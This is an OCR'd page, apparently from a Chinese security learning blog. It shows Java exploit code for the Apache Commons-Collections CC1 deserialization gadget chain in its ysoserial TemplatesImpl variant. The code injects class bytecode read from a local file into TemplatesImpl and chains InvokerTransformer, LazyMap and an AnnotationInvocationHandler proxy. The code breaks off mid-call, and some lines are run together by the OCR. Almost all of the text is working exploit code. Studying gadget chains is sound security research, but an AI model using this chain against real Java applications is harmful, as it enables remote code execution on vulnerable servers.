 ```java=
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
### CC1 Templates yso exp
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC1 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC1YsoTemplatesEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates), // 构造 setValue 的可控参数  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
```